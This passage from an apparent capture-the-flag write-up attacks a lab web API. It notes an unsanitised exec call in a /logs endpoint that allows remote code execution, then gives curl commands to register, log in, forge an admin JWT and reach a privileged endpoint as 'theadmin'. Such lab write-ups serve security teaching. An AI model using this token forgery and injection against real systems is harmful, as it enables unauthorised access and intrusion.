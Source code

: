 The `/logs` endpoint takes the filename and passes it to `exec` without sanitisation. This means that this is vulnerable to RCE.

### Token Spoof -> RCE

Now that we can spoof tokens and we found our RCE point, we can exploit this system. First, let's create a new user and then get the token:

```bash
$ curl -d '{"name":"testuser","email":"test@website.com","password":"password"}' -X POST http://10.129.71.62/api/user/register -H 'Content-Type: Application/json'
{"user":"testuser"} 
$ curl -d '{"email":"test@website.com","password":"password"}' -X POST http://10.129.71.62/api/user/login -H 'Content-Type: Application/json'
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDU3NDUyNDA1MjNjMDA0N2VhOWM4NTIiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJpYXQiOjE2ODM0NDA5ODZ9.h4CGRgSSN4KLsv_mRpE93BLqwN93IpXMKDO6IDYtOI8 
```

Then, we can spoof the token using this website:

{% embed url="https://jwt.io/" %}

<figure><img src="../../../.gitbook/assets/image (4055).png" alt=""><figcaption></figcaption></figure>

We can verify that this works by using the `/api/priv` endpoint:

```bash
$ curl 'http://10.129.71.62/api/priv' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDU3NDUyNDA1MjNjMDA0N2VhOWM4NTIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJpYXQiOjE2ODM0NDA5ODZ9.88MSrMOiPfw7x7CzUNKPvNlUmVPMQ2S-ZtaQY-9PRuE'
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}} 
```
